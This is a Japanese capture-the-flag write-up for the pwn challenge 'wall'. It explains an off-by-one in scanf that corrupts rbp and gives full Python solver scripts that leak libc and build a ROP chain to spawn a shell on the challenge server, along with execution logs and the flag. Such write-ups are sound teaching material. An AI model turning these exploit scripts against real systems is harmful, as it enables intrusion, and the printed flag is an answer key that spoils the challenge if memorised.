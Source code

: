 # wall:Pwn:200pts
You've got a message.  

[wall.tar.gz](wall.tar.gz)  

`nc 34.170.146.252 40015`  

# Solution
ファイル一式と接続先が渡される。  
ソースは以下である。  
```c
#include <stdio.h>
#include <stdlib.h>

char message[4096];

void get_name(void) {
  char name[128];
  printf("What is your name? ");
  scanf("%128[^\n]%*c", name);
  printf("Message from %s: \"%s\"\n", name, message);
}

int main(int argc, char **argv) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);

  printf("Message: ");
  scanf("%4096[^\n]%*c", message);
  get_name();
  return 0;
}
```
二つの`scanf`の箇所でoff-by-oneがある。  
`rbp`の末尾1バイトを書き換えてスタックを上へずらしてやり、そこに配置した確率的なropへ持ち込む。  
`rbp壊したら、leaveとretを二回呼べ`とPwn有識者から教えられているため`get_name`の方を利用する。
libc.so.6が配布されていることからもわかる通り、まずはlibcをリークしなければならない。  
スタックのアライメントに注意し、`ret`を調整しながら`printf`でリークを行う。  
```python
from ptrlib import *

elf = ELF("./wall")

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# libc = ELF("./libc.so.6")

sock = Process("./wall")
# sock = Socket("nc 34.170.146.252 40015")
sock.debug = True

payload = b"SATOKI"
sock.sendlineafter("Message: ", payload)

payload = p64(next(elf.gadget("ret;"))) * 12
payload += p64(elf.plt("printf"))
payload += p64(next(elf.gadget("ret;")))
payload += p64(elf.symbol("main"))
payload += b"A" * (128 - len(payload))
sock.sendlineafter("What is your name? ", payload)

sock.recvline()

logger.info(f"leak = {hex(u64(sock.recvuntil('M', drop=True, lookahead=True)))}")
```
実行する。  
```bash
$ python solver.py
[+] __init__: Successfully created new process './wall' (PID=42535)
[+] recv: Received 0x9 (9) bytes:
    00000000  4d 65 73 73 61 67 65 3a  20                       |Message: |
[+] send: Sent 0x7 (7) bytes:
00000000  53 41 54 4f 4b 49 0a                              |SATOKI.|
[+] recv: Received 0x13 (19) bytes:
    00000000  57 68 61 74 20 69 73 20  79 6f 75 72 20 6e 61 6d  |What is your nam|
    00000010  65 3f 20                                          |e? |
[+] send: Sent 0x81 (129) bytes:
00000000  1a 10 40 00 00 00 00 00  1a 10 40 00 00 00 00 00  |..@.......@.....|
00000010  1a 10 40 00 00 00 00 00  1a 10 40 00 00 00 00 00  |..@.......@.....|
*
00000060  74 10 40 00 00 00 00 00  1a 10 40 00 00 00 00 00  |t.@.......@.....|
00000070  d6 11 40 00 00 00 00 00  41 41 41 41 41 41 41 41  |..@.....AAAAAAAA|
00000080  0a                                                |.|
[+] recv: Received 0x2a (42) bytes:
    00000000  4d 65 73 73 61 67 65 20  66 72 6f 6d 20 1a 10 40  |Message from ..@|
    00000010  3a 20 22 53 41 54 4f 4b  49 22 0a 50 d0 ac 8a da  |: "SATOKI".P....|
    00000020  7f 4d 65 73 73 61 67 65  3a 20                    |.Message: |
[+] <module>: leak = 0x7fda8aacd050
[+] _close_impl: './wall' (PID=42535) killed by `close`
```
何度か試すと`funlockfile`がリークできたため、libcのベースが分かる。  
あとはもう一度同じくropを行い、libcの中の`system`を呼んでやればいい。  
以下のsolver.pyで行う。  
```python
from ptrlib import *

elf = ELF("./wall")

# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc.so.6")

# sock = Process("./wall")
sock = Socket("nc 34.170.146.252 40015")
# sock.debug = True

payload = b"SATOKI"
sock.sendlineafter("Message: ", payload)

payload = p64(next(elf.gadget("ret;"))) * 12
payload += p64(elf.plt("printf"))
payload += p64(next(elf.gadget("ret;")))
payload += p64(elf.symbol("main"))
payload += b"A" * (128 - len(payload))
sock.sendlineafter("What is your name? ", payload)

sock.recvline()
libc.base = u64(sock.recvuntil("M", drop=True, lookahead=True)) - libc.symbol(
    "funlockfile"
)

payload = b"TSUJI"
sock.sendlineafter("Message: ", payload)

payload = p64(next(elf.gadget("ret;"))) * 12
payload += p64(next(libc.gadget("pop rdi; ret;")))
payload += p64(next(libc.search("/bin/sh")))
payload += p64(libc.symbol("system"))
payload += b"B" * (128 - len(payload))
sock.sendlineafter("What is your name? ", payload)

sock.sh()
```
実行する。  
```bash
$ python solver.py
[+] __init__: Successfully connected to 34.170.146.252:40015
[+] base: New base address: 0x7f28ee7a9000
[ptrlib]$ Message from ␦@: "TSUJI"
[ptrlib]$ ls
bin
boot
dev
etc
flag-6d5a5cb38e69f72e74235bf99e6f1e9b.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[ptrlib]$ cat flag-6d5a5cb38e69f72e74235bf99e6f1e9b.txt
Alpaca{p1v0T1ng_t0_Bss_i5_tR1cKy_du3_7o_st4Ck_s1Z3_Lim17}
```
何度か実行すると、flagが得られた。  

## Alpaca{p1v0T1ng_t0_Bss_i5_tR1cKy_du3_7o_st4Ck_s1Z3_Lim17}